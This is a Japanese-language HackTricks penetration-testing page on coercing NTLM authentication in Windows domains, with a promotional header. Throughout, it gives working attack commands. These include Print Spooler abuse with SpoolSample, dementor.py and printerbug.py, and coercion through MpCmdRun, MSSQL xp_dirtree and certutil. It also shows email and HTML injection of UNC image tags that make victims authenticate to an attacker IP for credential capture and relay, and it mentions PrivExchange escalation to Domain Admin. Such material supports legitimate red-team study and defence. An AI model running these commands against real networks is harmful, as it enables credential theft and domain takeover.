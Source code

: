 # NTLM特権認証を強制する

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学びましょう</strong></a><strong>！</strong></summary>

* **サイバーセキュリティ企業**で働いていますか？ **HackTricksで会社を宣伝**してみたいですか？または、**PEASSの最新バージョンにアクセスしたり、HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[NFTs](https://opensea.io/collection/the-peass-family)コレクションをご覧ください
* [**公式PEASS＆HackTricks swag**](https://peass.creator-spring.com)を手に入れましょう
* **[💬](https://emojipedia.org/speech-balloon/) Discordグループ**に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
* **ハッキングトリックを共有するために、[hacktricksリポジトリ](https://github.com/carlospolop/hacktricks)と[hacktricks-cloudリポジトリ](https://github.com/carlospolop/hacktricks-cloud)にPRを提出してください**。

</details>

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers)は、**MIDLコンパイラ**を使用してC#でコーディングされた**リモート認証トリガーのコレクション**です。これにより、第三者の依存関係を回避できます。

## スプーラーサービスの悪用

_**Print Spooler**_サービスが**有効**になっている場合、既知のAD資格情報を使用して、**ドメインコントローラーのプリントサーバーに新しい印刷ジョブの更新を要求**し、**通知を特定のシステムに送信するように指示**できます。\
プリンターが任意のシステムに通知を送信するとき、その**システムに対して認証する必要があります**。したがって、攻撃者は_**Print Spooler**_サービスを任意のシステムに対して認証させ、サービスはこの認証で**コンピューターアカウント**を使用します。

### ドメイン上のWindowsサーバーを見つける

PowerShellを使用して、Windowsボックスのリストを取得します。通常、サーバーが優先されるため、そこに焦点を当てましょう：
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### スプーラーサービスのリスニングを見つける

やや修正された @mysmartlogin's (Vincent Le Toux's) の [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket) を使用して、スプーラーサービスがリスニングしているかどうかを確認します：
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
あなたはLinux上でrpcdump.pyを使用し、MS-RPRNプロトコルを探すこともできます。
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### 任意のホストに対してサービスに認証を要求する

[ここから**SpoolSampleをコンパイルできます**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**。**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
または、[**3xocyteのdementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket)または[**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)を使用している場合は、Linuxを使用してください。
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Unconstrained Delegationと組み合わせる

攻撃者がすでに[Unconstrained Delegation](unconstrained-delegation.md)を利用してコンピュータを侵害している場合、攻撃者は**プリンタをこのコンピュータに認証させる**ことができます。Unconstrained Delegationにより、**プリンタのコンピュータアカウントのTGT**がUnconstrained Delegationを持つコンピュータのメモリに**保存されます**。攻撃者はすでにこのホストを侵害しているため、このチケットを**取得して悪用**することができます（[Pass the Ticket](pass-the-ticket.md)）。

## RCP Force authentication

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

`PrivExchange`攻撃は、**Exchange Serverの`PushSubscription`機能**に見つかった欠陥の結果です。この機能により、Exchangeサーバを持つ任意のドメインユーザーが、HTTP経由でクライアント提供のホストに強制的に認証させることができます。

デフォルトでは、**ExchangeサービスはSYSTEMとして実行**され、過剰な特権が与えられます（具体的には、**2019年以前の累積更新プログラムでドメインのWriteDacl特権が与えられます**）。この欠陥を悪用すると、**情報をLDAPに中継し、その後ドメインNTDSデータベースを抽出**することができます。LDAPへの中継ができない場合でも、この欠陥を使用してドメイン内の他のホストに中継および認証することができます。この攻撃の成功により、認証されたドメインユーザーアカウントを使用して、Domain Adminへの直接アクセスが可能となります。

## Inside Windows

Windowsマシン内部にすでにいる場合、特権アカウントを使用してWindowsをサーバに接続するように強制することができます:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
または、別のテクニックを使用することもできます: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

certutil.exe lolbin（Microsoftによって署名されたバイナリ）を使用してNTLM認証を強制することが可能です:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTMLインジェクション

### メール経由

コンプロマイズしたいマシンにログインするユーザーの**メールアドレス**を知っている場合、以下のような**1x1の画像が埋め込まれたメール**を送信することができます。
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
### MitM

コンピュータに対してMitM攻撃を実行し、彼が視覚化するページにHTMLを注入できる場合、次のような画像をページに注入してみることができます：
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## NTLMv1のクラック

[NTLMv1のチャレンジをキャプチャできる場合は、こちらを参照してクラック方法を確認してください](../ntlm/#ntlmv1-attack)。\
_**NTLMv1をクラックするには、Responderのチャレンジを "1122334455667788" に設定する必要があります。**_
